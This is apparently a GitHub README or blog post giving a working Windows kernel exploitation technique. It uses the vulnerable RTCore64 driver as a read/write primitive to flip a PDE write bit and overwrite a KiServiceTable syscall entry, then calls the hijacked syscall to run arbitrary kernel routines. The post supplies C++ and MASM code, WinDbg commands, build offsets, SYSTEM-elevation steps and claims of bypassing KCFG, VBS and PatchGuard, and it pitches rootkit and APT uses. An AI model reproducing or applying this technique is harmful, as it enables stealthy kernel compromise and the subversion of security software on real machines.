



## 🚀 Blog Title: Executing Kernel Routines via Syscall Table Hijack

### 🔍 Overview

This post demonstrates a powerful kernel-mode code execution technique by **temporarily hijacking the syscall dispatch table** in Windows — specifically the `KiServiceTable`. The idea is to:

- Flip page permissions at the PDE level to allow writing to what is normally read-only memory.
- Overwrite a specific syscall entry (`NtSetQuotaInformationFile`) with the address of another kernel routine of our choosing (`PsLookupProcessByProcessId` in this example).
- Trigger the syscall to execute our chosen routine.
- Restore everything afterward to maintain stability and reduce detection.

What makes this method particularly potent is that it **bypasses multiple modern defenses**:

- ✅ **KCFG** (Kernel Control Flow Guard)
- ✅ **KCET** (Kernel Code Execution Prevention)
- ✅ **W^X** (Write XOR Execute memory protections)
- ✅ **Hypervisor-based protections**
- ✅ **VBS** (Virtualization-Based Security)

> ⚠️ **Note**: This is intended for educational and research purposes only. Unauthorized use may violate laws and policies.

**It doesn’t have to be a full routine — you can hijack the syscall to jump to a kernel-mode ROP gadget and even chain multiple gadgets for advanced execution**

---

### 🧨 Offensive Applications & APT Use Cases

Advanced Persistent Threat (APT) groups and sophisticated attackers can leverage this technique to:

- 🧬 Build stealthy kernel-mode rootkits
- 🔗 Chain multiple legitimate kernel routine calls
- 🧠 Subvert security software from kernel context
- ☠️ Target hypervisors via nested virtualization or hypercalls

> ⚠️ This makes it a powerful post-exploitation tool when kernel code execution is already achieved.

---

### 🔑 Starting Point: Gaining a Read/Write Primitive

Before we can perform any of the actions described in this post, we need a reliable **read/write primitive** in kernel space. This technique assumes that you already have one — in our case, I used the well-known **RTCore64** driver to demonstrate this.

> 🧪 RTCore64, originally distributed with MSI Afterburner, is known for exposing ring-0 memory access through IOCTLs, which makes it useful for research and educational exploitation scenarios.

Once you have read/write capabilities in kernel memory, your options dramatically expand. Some of the things you can do include:

* 🔍 Read kernel structures (like `EPROCESS`, `KTHREAD`, etc.)
* 🔧 Modify kernel objects (e.g., token stealing for privilege escalation)
* 📌 Disable or patch hooks placed by security software
* 🔁 Swap function pointers to hijack execution (as done in this post)
* 🔒 Circumvent memory protection mechanisms by flipping PTE/PDE flags

This blog focuses on the **syscall hijack** method, but it's just one of many paths you can take once a read/write primitive is obtained.

---

### 📚 Prerequisites

To fully understand and follow along with this post, you should have:

- ⚙️ **Windows Kernel Internals Knowledge** – Familiarity with system service dispatching, EPROCESS structures, and common kernel routines.
- 🧠 **Memory Exploitation Fundamentals** – Understanding of read/write primitives and how they’re used in kernel-mode exploitation.
- 🧮 **Paging & Virtual Memory** – In-depth knowledge of Windows memory management, particularly how **PTEs (Page Table Entries)** and **PDEs (Page Directory Entries)** control memory access and permissions.
- 🛠️ **Windbg / Kernel Debugging Experience** – Ability to navigate and extract data from kernel debug sessions using Windbg.

---

### 🧠 Key Concepts

- **`KiServiceTable`**: The internal Windows table used by the syscall dispatcher to resolve syscall numbers to actual kernel function addresses.
- **PTE/PDE Manipulation**: Changing page table and directory flags to override memory protection (e.g., enabling write access).
- **Syscall Hijacking**: Replacing a legitimate syscall entry with a custom or unintended routine to gain controlled execution in kernel mode.
- **`PsLookupProcessByProcessId`**: A useful kernel function that resolves a `PID` to an `EPROCESS` structure pointer — often used in privilege escalation and kernel object manipulation.

### Hijacking NtSetQuotaInformationFile Syscall

We chose to hijack `NtSetQuotaInformationFile` specifically because it's a **rarely used syscall in most environments**. This minimizes the chance of interference with normal system operations (BSOD).

The goal is to **hijack the syscall of `NtSetQuotaInformationFile`** and redirect it to another kernel-mode routine or gadget of our choosing (e.g., `nt!PsLookupProcessByProcessId`).

To accomplish this, we must:
1. Identify the syscall number for `NtSetQuotaInformationFile`.
2. Locate and modify the corresponding entry in the `nt!KiServiceTable`.
3. Overcome memory protection to allow editing the read-only service table.

**It doesn’t have to be a full routine — you can hijack the syscall to jump to a kernel-mode ROP gadget and even chain multiple gadgets for advanced execution**

---

##### Extracting the Syscall Number

To find the syscall number of `NtSetQuotaInformationFile`, open `ntdll.dll` (located in `C:\WINDOWS\SYSTEM32`) using **IDA Pro** or another disassembler.

From the disassembly:




We can see that the **syscall number is `0x1B8`** (440 in decimal).

---

##### Understanding `nt!KiServiceTable`

The `nt!KiServiceTable` is a kernel array of function pointers (each 4 bytes on x64 systems), used by the syscall dispatcher to locate the correct handler.

To get the current pointer for `NtSetQuotaInformationFile`, multiply the syscall number by 4 and inspect the entry:

```shell
2: kd> dds nt!KiServiceTable + 0x04 * 0x1b8 L1
fffff803`eb2d9e80  0639c300
```

This value is an offset — to determine where it points, shift it right by 4 bits and add it to the base of the service table:

```shell
2: kd> u nt!KiServiceTable + (0639c300 >> 4) L4
nt!NtSetQuotaInformationFile:
fffff803`eb9133d0 4883ec38        sub     rsp,38h
fffff803`eb9133d4 e837a6ffff      call    nt!IopSetEaOrQuotaInformationFile
fffff803`eb9133d9 4883c438        add     rsp,38h
fffff803`eb9133dd c3              ret
```

This confirms that the handler for `NtSetQuotaInformationFile` is indeed located here.

---

##### Redirecting the Syscall to Our Target

We want to replace this handler with another kernel routine, for example, `nt!PsLookupProcessByProcessId`.

First, compute the new offset to use in the `KiServiceTable` entry:

```shell
2: kd> ? ( nt!PsLookupProcessByProcessId - nt!KiServiceTable ) << 4
Evaluate expression: 137195520 = 00000000`082d7000
```

So the new value to inject at index `0x1B8` is `0x082d7000`.

---

##### Bypassing Read-Only Protection

Attempting to overwrite the `nt!KiServiceTable` directly will fail because it is **read-only**:

<pre>
1: kd> !pte nt!KiServiceTable
                                           VA fffff803eb2d97a0
PXE at FFFFF67B3D9ECF80    PPE at FFFFF67B3D9F0078    PDE at FFFFF67B3E00FAC8    PTE at FFFFF67C01F596C8
contains 00000000007F7063  contains 0000000000829063  contains 8A0000011BC001E3  contains 0000000000000000
pfn 7f7       ---DA--KWEV  pfn 829       ---DA--KWEV  pfn 11bc00    -GLDA--K<mark>R</mark>-V  LARGE PAGE pfn 11bcd9      
</pre>

- The `PTE` is **not valid (zeroed)** — so protection is governed at the **Page Directory Entry (PDE)** level.
- The PDE flags include `R` (Read), but **not `W` (Write)**, making the page **read-only**.

> **Key Insight**: Since the page table entry is invalid, control of memory access is governed by the PDE. To gain write access, you must **flip the PDE's "Read-only" flag to "Write"**.

---

##### Summary

To hijack `NtSetQuotaInformationFile`:

1. **Get syscall number** using disassembly (e.g., `0x1B8`).
2. **Locate the target function pointer** in `nt!KiServiceTable + 4 * 0x1B8`.
3. **Compute the offset** for your replacement function (`<< 4`).
4. **Modify the PDE** to make the page writable.
5. **Overwrite the entry** in the service table with the new offset.

> ⚠️ This technique requires **kernel-level privileges** and direct manipulation of memory protection — typically achievable in exploit development or rootkit scenarios. Use responsibly and legally.

### Code Walkthrough

#### 1. **Find ntoskrnl Base Address**

```cpp
DWORD64 nt_base = (DWORD64)this->lpNtosBase;
```
You obtain the base of the Windows kernel in memory (I am using `EnumDeviceDrivers` for this).

#### 2. **Read Address of KiServiceTable**

```cpp
DWORD64 nt_KiServiceTable;
VirtualRead(nt_base + KeServiceDescriptorTableShadow_Offset_fromNT, &nt_KiServiceTable, sizeof(nt_KiServiceTable));
```
You read the hardcoded offset where `KiServiceTable` lives. This offset must match your target Windows build.

You can get the offset `KeServiceDescriptorTableShadow_Offset_fromNT` in a local kernel debug session in windbg

<pre>
2: kd> dqs nt!KeServiceDescriptorTableShadow L5
fffff802`e6bc5280  <mark>fffff802`e5cd97a0 nt!KiServiceTable</mark>
fffff802`e6bc5288  00000000`00000000
fffff802`e6bc5290  00000000`000001e9
fffff802`e6bc5298  fffff802`e5cd9f48 nt!KiArgumentTable
fffff802`e6bc52a0  fffff802`77dcc000 win32k!W32pServiceTable
2: kd> ? nt!KeServiceDescriptorTableShadow - nt
Evaluate expression: 16536192 = <mark>00000000`00fc5280</mark>
</pre>

#### 3. **Get PTE (Page Table Entry) Base Address in kernel memory.**
at `nt!MiGetPteAddress + 0x13` we can get the PTE Base address.
```
dq nt!MiGetPteAddress + 0x13
```

#### 4. **Get PDE for KiServiceTable and Flip R/W Bit**

```cpp
DWORD64 ntKiServiceTable_pde_flags;
// Flip R/W bit (bit 1)
New_ntKiServiceTable_pde_flags = ntKiServiceTable_pde_flags ^ (1 << 1);
WriteMemoryDWORD64(ntKiServiceTable_pde, New_ntKiServiceTable_pde_flags);
```

You're enabling write access to the memory page that contains the `KiServiceTable`, which is normally read-only.

#### 5. **Hijack the Syscall**

```cpp
		DWORD64	NtSetQuotaInformationFile = (DWORD64)nt_KiServiceTable + NtSetQuotaInformationFile_syscallnumber * 0x04;
	// PsLookupProcessByProcessId Kernel Address
	DWORD64 PsLookupProcessByProcessId = (DWORD64)nt_base + PsLookupProcessByProcessId_Offset_fromNT;
  // Calculate the offset to jump to PsLookupProcessByProcessId
	DWORD offset = (DWORD)(PsLookupProcessByProcessId - nt_KiServiceTable);
	DWORD shifted = offset << 4;
	// Overwrite the NtSetQuotaInformationFile syscall offset in the Dispatch table with the new one
	b = this->objMemHandler->WriteMemoryPrimitive(0x04, NtSetQuotaInformationFile, shifted);
```

You overwrite the `NtSetQuotaInformationFile` syscall pointer to jump to `PsLookupProcessByProcessId`.

You can get `PsLookupProcessByProcessId_Offset_fromNT` from windbg local kernel session.

```
2: kd> ? nt!PsLookupProcessByProcessId - nt
Evaluate expression: 9465504 = 00000000`00906ea0
```

#### 6. **Call the Hijacked Syscall using asm**

```cpp
NTSTATUS status = HijackedSyscall((HANDLE)pid, (DWORD64)PEProcess);
```

```masm
HijackedSyscall PROC
	mov r10, rcx
	int 3;
	mov eax, syscallNumber ; syscall number for NtAllocateVirtualMemory
	syscall
	ret
HijackedSyscall ENDP
```

You call the syscall, which now executes `PsLookupProcessByProcessId` in kernel context, passing a PID and an allocated memory buffer to receive the EPROCESS pointer.

#### 7. **Read Process Name**

```cpp
	b = this->objMemHandler->VirtualRead(
		(DWORD64)KernelEprocess + imageFileNameOffset,
		&processname,
		sizeof(processname)
	);

	// Print the string
	printf("[>] Process Name: %s\n", processname);
  ```

You parse the `ImageFileName` field from the EPROCESS structure to identify the target process with our Read Primitive.

You can get the `ImageFileName` offset from windbg local kernel session.

```
2: kd> dt _EPROCESS ImageFileName
nt!_EPROCESS
   +0x338 ImageFileName : [15] UChar
```

#### 8. **Cleanup**

You restore:
- The original syscall handler:
  ```cpp
  WriteMemoryPrimitive(0x04, NtSetQuotaInformationFile, orig_syscall_offset);
  ```
- Original memory protection:
  ```cpp
  WriteMemoryDWORD64(ntKiServiceTable_pde, ntKiServiceTable_pde_flags);
  ```

---

### 🧾 Required Offsets for your windows build (in `offsets.h`)

For the project to work on your system, you need to change these offsets to match your Windows version.

```cpp
#define KeServiceDescriptorTableShadow_Offset_fromNT 0xfc5280
#define NtSetQuotaInformationFile_syscallnumber 0x1b8
#define PsLookupProcessByProcessId_Offset_fromNT 0x906ea0
#define MiGetPteAddress_Offset_fromNT 0x438d93
#define imageFileNameOffset 0x338
```

---


### 🔐 Security Bypass Summary

This technique effectively bypasses multiple modern kernel security mechanisms:

**KCFG (Kernel Control Flow Guard):** this technique will not trigger KCFG as it is a syscall dispatcher that doesn't trigger KCFG.

**KCET (Kernel Code Execution Prevention):** No KCET violations, as we are not overwriting any return addresses in the stack.

**W^X Policies:** We never write to executable memory directly — memory remains either writable or executable, but not both.

**Hypervisor-based protections & VBS:** These systems are typically focused on enforcing isolation and detecting memory tampering via VM exit analysis, which is avoided with this low-noise syscall redirection.

**PatchGuard:** PatchGuard watches for modifications to critical structures. However, since this hijack is temporary and fully restored shortly after execution, it significantly lowers the risk of PatchGuard triggering a bug check.

**And It doesn't seems PatchGuard checks that entry at all as I left it modified for an hour and no BSOD.**

---

### ✅ POC (Proof of Concept)

To run this POC successfully, you must execute it as SYSTEM. This is because the code uses EnumDeviceDrivers to leak the kernel base address — a technique that no longer works from medium integrity on recent versions of Windows 11.

🔧 Elevation Tip
To elevate to SYSTEM privileges, you can use Sysinternals' PSExec:

```
psexec.exe -i -s cmd.exe
```
This will launch a command shell as SYSTEM, allowing the exploit to function correctly.

🕵️ Alternative (Medium Integrity)
If you're restricted to medium integrity, you can use a side-channel technique to leak the kernel base address instead nowadays. A tool for this is available here:

👉 https://github.com/exploits-forsale/prefetch-tool



---

### 🧯 Warning

This code operates in kernel space and modifies protected memory. It **must not** be used in production or against systems you don’t own. Tampering with kernel memory can lead to **system crashes**, **BSODs**, and **security violations**.

---

### ✅ Conclusion

Hijacking syscall entries like this demonstrates the power and risks of low-level Windows exploitation. Proper memory manipulation, address resolution, and cleanup are all critical for success and system stability.

Use this responsibly — and only in lab environments.
